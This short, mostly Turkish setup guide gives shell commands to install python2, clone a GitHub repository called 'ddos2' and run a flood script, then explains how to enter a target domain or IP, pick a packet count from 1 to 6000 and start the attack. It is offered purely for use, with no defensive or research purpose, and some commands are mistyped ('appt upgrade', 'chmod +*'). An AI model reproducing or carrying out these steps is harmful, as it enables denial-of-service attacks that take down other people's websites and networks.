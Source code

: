 -apt update && appt upgrade

-apt install python2

-apt install git

-git clone https://github.com/SpurexGod/ddos2

-cd ddos2

chmod +* spurexddos.py

python2 spurexddos.py

website or IP kısmına hedef domain veya ip adresi yazabilirsiniz

Flood size kısmını ne kadar paket atıcağaınızı belirler 1-6000 arası bir sayı  yazmanız lazım

atağın başlaması için sonra çıkan yere 1 yazıyoruz ve saldırı otomatik olarak başlıyor
